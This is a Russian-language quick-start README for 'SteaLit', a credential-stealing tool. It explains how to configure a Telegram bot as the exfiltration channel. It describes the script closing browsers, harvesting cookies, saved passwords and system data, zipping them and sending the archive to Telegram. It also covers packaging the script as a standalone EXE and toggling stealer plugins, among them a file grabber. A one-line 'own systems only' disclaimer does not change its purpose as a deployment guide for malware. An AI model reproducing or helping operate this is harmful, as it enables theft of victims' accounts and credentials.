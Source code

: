 # 🚀 Быстрый старт SteaLit

## 1. Установка зависимостей
```bash
pip install -r reqs.txt
```

## 2. Настройка Telegram бота

### Создание бота:
1. Найдите @BotFather в Telegram
2. Отправьте `/newbot`
3. Следуйте инструкциям
4. Получите `bot_token`

### Получение chat_id:
1. Добавьте бота в чат или напишите ему
2. Перейдите по ссылке: `https://api.telegram.org/bot<ВАШ_TOKEN>/getUpdates`
3. Найдите `chat.id` в ответе

### Настройка в коде:
Отредактируйте `stealer.py`, строки 21-24:
```python
"telegram": {
    "bot_token": "ВАШ_BOT_TOKEN_ЗДЕСЬ",
    "chat_id": "ВАШ_CHAT_ID_ЗДЕСЬ"
},
```

## 3. Запуск
```bash
python stealer.py
```

## 4. Что произойдет:
1. ✅ Закроются браузеры
2. ✅ Соберутся cookies и пароли
3. ✅ Соберется системная информация
4. ✅ Создастся ZIP архив
5. ✅ Архив отправится в Telegram

## 5. Создание EXE (опционально)
```bash
pip install pyinstaller
pyinstaller --onefile --add-data "modules;modules" stealer.py
```
EXE файл будет в папке `dist/`

## ⚠️ Важно:
- Закройте браузеры перед запуском
- Запускайте от имени пользователя (не администратора)
- Используйте только на своих системах

## 🔧 Настройка плагинов:
В `stealer.py` можете включить/выключить модули:
```python
"plugins": {
    "Cookies Extractor": True,      # Включено
    "Passwords Extractor": True,    # Включено
    "User Information": True,       # Включено
    "Process List": True,           # Включено
    "Installed Software": True,     # Включено
    "File Grabber": False,          # Выключено (может быть большим)
}
```

---
**Время выполнения**: ~30-60 секунд  
**Размер архива**: обычно 1-5 МБ (без File Grabber)
